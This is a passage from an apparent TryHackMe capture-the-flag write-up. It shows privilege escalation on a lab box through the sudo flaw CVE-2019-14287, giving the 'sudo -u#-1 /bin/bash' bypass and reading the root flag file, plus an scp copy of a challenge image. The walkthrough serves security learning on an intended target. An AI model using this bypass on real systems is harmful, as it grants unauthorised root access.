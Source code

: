 - Now, THM is asking for the CVE number for this insecure binary. We can google `(ALL, !root) /bin/bash`, which will lead us to the exploit found on [Exploit-DB](https://www.exploit-db.com/). The correct CVE number is **CVE 2019-14287**. We can simply copy the script and run it on our machine. From the script found on [Exploit-DB](https://www.exploit-db.com/), the only syntax we really need is the following:
```python
sudo -u#-1 + binary

OR 

sudo -u#-1 /bin/bash
```

- Once we throw that in and press enter, we can see that we are now root. All we have to do is `cat /root/root.txt` and we get the following:
```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
{flag}

By,
DesKel a.k.a Agent R
```


---
### Extra
- There is a part of this challenge that isn't directly related to get access and escalating privileges, and that is regarding the `Alien_autopsy.jpg` file in the `/home/james` directory on the target. We can use SCP to get it over with the following:
```
scp james@target-ip:Alien_autopsy.jpg ~/
```

- Once we have this file, we can do some googling and reverse image searching to find an article from Fox News that dubs the incident the Roswell alien autopsy, which is the answer to the question.
